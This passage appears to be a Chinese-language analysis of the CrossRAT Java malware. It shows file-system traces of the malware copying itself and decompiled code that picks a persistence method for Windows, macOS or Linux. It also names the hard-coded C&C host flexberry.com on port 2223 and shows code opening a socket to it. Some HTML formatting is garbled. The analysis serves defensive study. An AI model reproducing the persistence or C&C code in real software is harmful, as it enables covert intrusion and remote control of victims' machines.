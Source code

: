 …通过使用fs_usage命令，我们可以观察到这份文件的拷贝以及更新时间，而拷贝文件跟源文件是完全一模一样的：

```
# fsusage -w -f filesystem
open F=7 (R__) /Users/user/Desktop/hmar6.jar java.125131
lseek F=7 O=0x00000000 java.125131

open F=8 (WC_T) /Users/user/Library/mediamgrs.jar java.125131
pwrite F=8 B=0x3654f O=0x00000000 java.125131
close F=8 0.000138 java.125131
utimes /Users/user/Library/mediamgrs.jar java.125131

ls -lart /Users/user/Library/mediamgrs.jar
-rw-r—r— 1 user staff 222543 Jan 22 18:54 /Users/user/Library/mediamgrs.jar

ls -lart ~/Desktop/hmar6.jar
-rw-r—r— 1 user wheel 222543 Jan 22 18:54 /Users/user/Desktop/hmar6.jar
```

当恶意软件完成了自身文件的拷贝之后，它将会根据目标系统平台来执行相应的持久化感染逻辑。由于我们的测试环境是一台安装了macOS系统的虚拟机，因此恶意软件将会利用Launch Agent来实现持久化感染：

```
public static void main(String args[])
`{`
…
//persist: Windows
if ((localObject5 = a.c.b()).a() == a.c.a) `{`
paramArrayOfString = new b.e(paramArrayOfString, (String)localObject4, true);
`}`

//persist: Mac
else if (((a.a)localObject5).a() == a.c.b) `{`
  paramArrayOfString = new b.c(paramArrayOfString, (String)localObject4, true);
`}` 

//persist: Linux
else if ((((a.a)localObject5).d()) &amp;&amp; 
        (!GraphicsEnvironment.getLocalGraphicsEnvironment().isHeadlessInstance())) `{`
  paramArrayOfString = new b.d(paramArrayOfString, (String)localObject4, true);
`}` 
...

//error: unknown OS
else `{`
  throw new RuntimeException("Unknown operating system " + ((a.a)localObject5).c());
`}`</code>…</pre>
我们可以直接通过查看文件系统来观察恶意软件的持久化感染情况：
<p>[![](https://p3.ssl.qhimg.com/t01278255b62c0f7366.png)](https://p3.ssl.qhimg.com/t01278255b62c0f7366.png)<br>
当恶意软件完成了持久化感染之后，它将会尝试连接远程C&amp;C服务器，并检查服务器发送过来的命令。根据EFF/Lookout提供的研究报告，改恶意软件将会尝试连接flexberry.com，通信端口为2223。<br>
其中，远程C&amp;C服务器的信息是硬编码在crossrat/k.class文件中的：</p>
[![](https://p1.ssl.qhimg.com/t01edbe16e8514a084f.png)](https://p1.ssl.qhimg.com/t01edbe16e8514a084f.png)
<pre>`  ``{`<code class="hljs perl">…//connect to C&amp;C server
  Socket socket;
  (socket = new Socket(crossrat.k.b, crossrat.k.c)).setSoTimeout(0x1d4c0);

  ...
```
